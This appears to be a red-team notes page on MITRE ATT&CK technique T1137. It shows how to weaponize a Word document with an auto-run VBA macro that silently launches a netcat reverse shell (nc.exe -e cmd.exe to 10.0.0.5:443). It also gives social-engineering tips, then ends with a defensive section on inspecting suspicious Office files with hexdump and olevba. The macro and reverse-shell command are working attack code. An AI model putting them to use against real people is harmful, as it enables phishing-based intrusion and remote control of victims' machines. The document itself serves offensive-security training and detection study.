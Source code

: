 ```yaml
---
description: Code execution
---
```


# T1137: Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly:

![](../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../.gitbook/assets/macros-filename.png)

{% file src="../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../.gitbook/assets/macro-victim.png)

...and enabling the content - which gives the attacker a reverse shell:

![](../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry and what happened after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a ZIP and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file can be renamed to **Doc3.zip** and simply unzipped like a regular archive. Doing so deflates the archive and reveals the files that make up the suspicious office file. Files include `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros:

![](../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-offico-macros.md#weaponization) section:

![](../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through. This can sometimes give enough to determine if the document is suspicious. 

I ran `hexdump -C vbaProject.bin` which clearly revealed some fragmented keywords that should immediately raise your suspicion - keywords included: **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../.gitbook/assets/macros-olevba.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1137\",\"type\":\"link\",\"title\":\"Office Application Startup - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

